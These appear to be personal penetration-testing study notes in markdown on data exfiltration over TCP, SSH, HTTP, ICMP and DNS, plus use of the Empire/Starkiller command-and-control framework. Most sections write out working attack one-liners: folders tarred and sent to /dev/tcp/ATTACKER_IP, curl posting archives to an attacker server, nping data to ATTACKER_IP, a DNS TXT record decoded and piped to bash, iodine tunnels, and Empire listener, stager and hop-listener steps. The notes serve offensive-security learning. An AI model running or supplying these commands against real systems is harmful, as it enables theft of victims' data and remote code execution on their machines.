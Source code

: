 - [[#Data Exfiltration|Data Exfiltration]]
	- [[#Data Exfiltration#TCP|TCP]]
	- [[#Data Exfiltration#SSH|SSH]]
	- [[#Data Exfiltration#HTTP|HTTP]]
	- [[#Data Exfiltration#ICMP|ICMP]]
	- [[#Data Exfiltration#DNS|DNS]]
		- [[#DNS#DNS Tunnel|DNS Tunnel]]
			- [[#DNS Tunnel#Other Tools|Other Tools]]
- [[#Empire (windows) / Starkiller|Empire (windows) / Starkiller]]

```dataviewjs
dv.view('toc')
```

## Data Exfiltration
- extract information
- outbound traffic TCP/UDP 53 (DNO)

- Bind9 server
  - buy a domain (https://www.youtube.com/watch?v=p8wbebEgtDk)

### TCP
- easy to detect
- listener on attacker: nc -lvp XXX > output.txt
  
- connecttion on victim:
  - tar zfc - folder/ | base64 | dd conv=ebcdic > /dev/tcp/ATTAcKER_IP/PORT
    - compress folder
    - convert to base64
    - convert and copy file, from ASCI du EBCDIC
    - send to this Port
- Received file
  - dd conv=ascii if=received.file | base64 -d > file.tar

### SSH
- Connection on victim 
  - tar cf - filder/ | ssh user@ip "cd /tmp/; tar xpf -"

### HTTP
- post request: not cached, not in browse, not bookmarked, no restriction on size
- SEND: curl --data "files=$(tar zcf - FOLDR/ | base64)" http://attacker-server/file.php
- RECEIVE: correct URL enconding

- HTTPS
  - https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-apache-in-ubuntu-18-04

### ICMP
- fill out data-field with data
- ping 
  - -p = in hexadecimal
    - xxd -p = convert to hexadecimal
  - Metasploit  
    - Begin of File (BOF) + End of File (EOF)
    - auxiliry=> icmp_exfil
    - BPF_FILTER = only for icmp
- nping
  - Victim: 
    - send BOF
      - nping --icmp -c 1 ATTACKER_IP --data-string "BOFfile.txt"
  - send DATA
    - nping --icmp -c 1 ATTACKER_IP --data-string "blabla"
  - send EOF
    - nping --icmp -c 1 ATTACKER_IP --data-string "EOF"
  - icmpdoor
    - needs execution on victim
    - all traffics goes through ICMP
    - icmpdoor -i eht0 -d IP
  - Attacker
    - icmp-cnc -i eth1 -d IP

### DNS
- Extract data from DNS
- Easy to bypass firewalls and IPS
- Perfom dns request and input data there
  - Ex: EXFILTRATED_DATA@domain.thm

- Create own DNS
  - https://www.youtube.com/watch?v=p8wbebEgtDk

- Steps
  - find data to sent
  - encode data 
  - send as subdomain, max 255 characters URL and 63 subdomain
- cat file_to_sent
  - tr -d "\n" = remove breakline
  - fold -w18 = divide in block of 18 characters
  - sed -r 's/.*/&.domain'/ = append domain
- Decode
  - filter extracted file and decode

- Command and Control
  - encode script 
  - add it to TXT dns record
  - ask for this record: dig +short -t TXT
  - decode script
  - execute it
  - dig +short -t TXT ns.domain | remove " | base64 -d | bash

#### DNS Tunnel
- TCP over DNS
- iodine
  - client
  - and server
  - Client
    - iodined -f -c -P password IP/CID att.tunnel.com
      - create new interface dns0
      - -f background
      - -c no checking client ip and for
      - -P set password
      - IP = set network IP and interface
      - att.tunnel = nameserver
  - Server
    - iodine -P password att.tunnel.com

##### Other Tools
- packetygrabber.py => https://github.com/kleosdc/dns-exfil-infil
- dns-exfil-infil.py => https://github.com/kleosdc/dns-exfil-infil

## Empire (windows) / Starkiller
- powershell-empire server + client
  - different location:
    - /usr/share/powershell-empire/empire/client/config.yaml
    - connect HOSTNAME --username=USERNAME --password=PASSWORD
- Starkiller: app
  - user: empireadmin pass: password123
- Listener: listen connection
- Stargers: payloads for robust shell
- Agents: sessions (like metasploit)
- Modules (further agends)

- Start listener
  - uselistener [NAME]
  - set [OPTION_VALUE]
  - execute
  
- Stagers
  - usestager 
  - Place payload + execute it
  - interact NAME
  - help = display commandos
  
- Starkiller
  - GUI
### Hop Listener
- noo connection forwarding
- create files copied across compromised to target = reference back to our listener
- Every connection happens with the compromised who sends to the target

- listener [http_hop]
  - .php files that need to be sent to compromised
  - host: compromised
  - redirectlistener: existing listener that is running
  - port: the webserver will host the hop file in this port
- Create Stager: 
  - starger [multi/launcher]
    - set listener
- set files on jumpserver
  - transfer created files to compromised server
  - open port firewall
  - make sure we have the access to the target
  - use module to escalate privilege